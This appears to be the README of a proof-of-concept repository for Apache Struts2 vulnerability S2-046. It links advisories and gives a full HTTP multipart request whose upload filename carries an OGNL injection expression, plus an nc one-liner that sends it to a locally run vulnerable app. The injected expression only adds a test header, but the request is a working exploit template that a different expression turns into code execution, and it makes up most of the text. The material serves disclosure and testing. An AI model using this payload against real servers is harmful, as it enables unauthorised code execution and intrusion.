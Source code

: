 # S2-046-PoC

## References:
- Security Bulletin: https://cwiki.apache.org/confluence/display/WW/S2-046
- Blog post: https://community.hpe.com/t5/Security-Research/Struts2-046-A-new-vector/ba-p/6949723#.WNAr_RLyvpR
- Chris Frohoff's NULL character variant: https://gist.github.com/frohoff/a3e24764561c0c18b6270805140e7600

## Proof of concept:
Start vulnerable application with:
```
mvn jetty:run
```

Sample request:
```
POST /doUpload.action HTTP/1.1
Host: localhost:8080
Content-Length: 1000000000
Cache-Control: max-age=0
Origin: http://localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXd004BVJN9pBYBL2
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Referer: http://localhost:8080/doUpload
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close

------WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Disposition: form-data; name="upload"; filename="%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test','Kaboom')}"
Content-Type: text/plain


foo
------WebKitFormBoundaryXd004BVJN9pBYBL2--
```

Send request:
```
export payload="POST /doUpload.action HTTP/1.1\r\nHost: localhost:8080\r\nContent-Length: 279000000\r\nCache-Control: max-age=0\r\nOrigin: http://localhost:8080\r\nUpgrade-Insecure-Requests: 1\r\nContent-Type: multipart/form-data; boundary=----WebKitFormBoundaryXd004BVJN9pBYBL2\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\r\nReferer: http://localhost:8080/doUpload\r\nAccept-Language: en-US,en;q=0.8,es;q=0.6\r\nConnection: close\r\n\r\n------WebKitFormBoundaryXd004BVJN9pBYBL2\r\nContent-Disposition: form-data; name=\"upload\"; filename=\"%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test','Kaboom')}\"\r\nContent-Type: text/plain\r\n\r\nfoo\r\n------WebKitFormBoundaryXd004BVJN9pBYBL2--\r\n"
echo -e "$payload" | nc localhost 8080
```
